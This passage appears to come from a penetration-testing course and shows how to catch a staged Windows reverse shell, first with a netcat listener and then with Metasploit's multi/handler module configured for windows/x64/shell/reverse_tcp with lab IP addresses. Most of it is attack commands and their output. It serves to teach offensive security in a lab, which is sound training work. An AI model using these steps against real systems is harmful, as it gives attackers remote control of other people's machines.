 > Listing 50 - Creating a Windows executable with a staged TCP reverse shell payload

We'll repeat the steps from Listing 48 to download and execute **staged.exe** and we'll start the Netcat listener again.

```
kali@kali:~$ nc -nvlp 443                                                                                
listening on [any] 443 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.202] 50832
whoami
```

> Listing 51 - Incoming reverse shell from staged Windows binary

While we received an incoming connection, we cannot execute any commands through it. This is because Netcat doesn't know how to handle a staged payload.

To get a functional interactive command prompt, we can use Metasploit's [*multi/handler*](https://www.rapid7.com/db/modules/exploit/multi/handler/) module, which works for many staged, non-staged, and more advanced payloads. Let's use this module to receive the incoming connection from **staged.exe**.

In Metasploit, let's select the module with **use**. Then, we must specify the payload of the incoming connection. In our case, this is *windows/x64/shell/reverse\_tcp*. In addition, we have to set the options for the payload. We enter the IP of our Kali machine as argument for **LHOST** and port 443 as argument for **LPORT**. Finally, we can enter **run** to launch the module and set up the listener.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp

msf6 exploit(multi/handler) > show options
...
Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(multi/handler) > set LHOST 192.168.119.2
LHOST => 192.168.119.2
msf6 exploit(multi/handler) > set LPORT 443

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.2:443
```
